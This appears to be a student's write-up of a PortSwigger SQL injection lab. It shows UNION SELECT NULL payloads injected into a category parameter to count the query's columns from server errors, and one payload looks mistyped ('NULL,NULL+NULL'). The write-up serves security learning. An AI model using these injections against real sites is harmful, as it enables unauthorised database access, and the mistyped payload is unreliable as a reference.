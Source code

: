 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/31f08675-5378-41b6-ada5-ef1cffbf978b)

## Solution :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/aaf3ff13-c33e-4af9-b39d-4acdd565dcb8)

Query made --

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

Added "UNION NULL" to the request to determine the number of columns used in the query.

```SQL
SELECT * FROM someTable WHERE category = '<CATEGORY>''UNION+SELECT+NULL--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/088aa7ca-c084-4a95-9a53-828558f2d185)

we got internal server error so the coloms size is more than 1.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/73e405f2-d178-491e-87c9-8b2d6f07c3ee)

Incrementing 'NULL' once again .

```SQL
SELECT * FROM someTable WHERE category = '<CATEGORY>''UNION+SELECT+NULL,NULL--
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b8e97441-aac7-4f9c-9b40-02cd6a625930)

we got internal server error again so the coloms size is more than 2.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/73e405f2-d178-491e-87c9-8b2d6f07c3ee)

Incrementing 'NULL' 3rd time.

```SQL
SELECT * FROM someTable WHERE category = '<CATEGORY>''UNION+SELECT+NULL,NULL+NULL--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/187445d5-5c5b-482b-a626-7af3bb8f74d6)

This did not throws an internal server error. It means that there are 3 columns that is being retreived in the query.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d57e1089-4892-402a-9e5a-509cfc10fab2)





